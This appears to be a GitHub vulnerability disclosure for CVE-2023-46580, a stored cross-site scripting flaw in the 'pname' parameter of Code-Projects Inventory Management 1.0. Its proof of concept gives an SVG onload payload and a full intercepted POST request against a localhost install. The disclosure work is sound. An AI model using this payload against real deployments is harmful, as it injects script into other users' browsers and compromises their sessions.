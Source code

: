 # CVE-2023-46580-Code-Projects-Inventory-Management-1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/inventory-management-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2021/05/Inventory_Management_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Inventory Management V1.0 is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through 'pname' parameter in the /editProduct.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2023-46580
+ Affected Version: Inventory Management V1.0
+ Vulnerable File: editProduct.php
+ Parameters: pname
+ Attack Type: local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46580
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46580
# Description
+ The parameter pname in the /editProduct.php file of Code-Projects Inventory Management V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Register and login the panel
+ Go to Products --> Edit Product
+ Click Submit
+ Intercept the POST request to editProduct.php via Burp Suite
+ Inject the payload to the vulnerable parameter
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `pname` parameter
```
POST /Inventory-Management/model/editProduct.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://localhost
Connection: close
Referer: http://localhost/Inventory-Management/model/editProduct.php?id=12
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

pname=AloeVera+Gel"><svg/onload=alert(document.domain)>&buy=56&sell=14&id=12&Submit=Submit
```
+ Go to the Products page and trigger the XSS --> http://localhost/Inventory-Management/model/product.php
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Inventory-Management-1.0/assets/113091631/e57d7def-e5b7-425d-a329-33c84090927c">
